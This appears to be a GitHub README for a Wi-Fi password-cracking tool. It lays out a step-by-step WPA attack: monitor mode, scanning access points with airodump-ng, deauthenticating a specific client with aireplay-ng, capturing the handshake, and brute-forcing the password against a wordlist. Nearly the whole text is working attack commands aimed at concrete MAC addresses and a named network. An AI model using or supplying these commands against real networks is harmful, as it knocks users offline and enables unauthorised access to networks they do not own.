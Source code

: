 ## Pre-requisits
install airodump-ng
have a netword card with monitor mode support

## 0. Enable monitor mode
./enable-monitor.sh

## 1. Scan available access points
sudo airodump-ng -w scan-aps wlp1s0mon
## 2. Extract all APs with their MAC address and channels
python3 extract-aps.py scan-aps-01.cap
## 3. Scan that AP on its channel to get the clients connected to it
sudo airodump-ng --bssid e8:48:b8:f0:0f:9c -c 2 -w do-deauth wlp1s0mon
## 4. Send the deauth frame to that client
sudo aireplay-ng --deauth 10 -a e8:48:b8:f0:0f:9c -c 52:62:E7:6C:26:C2 wlp1s0mon
## 5. Extract the full handshake
## 6. Extract values (ANonce, SNonce, MICs)
<!-- python3 extract-handshake.py do-deauth-05.cap --ssid "4010" --ap e8:48:b8:f0:0f:9c --client 52:62:E7:6C:26:C2 --out handshake.json -->

## 7. Brute-force password and match
python3 wpa_cracker.py do-deauth-02.cap passlist.txt

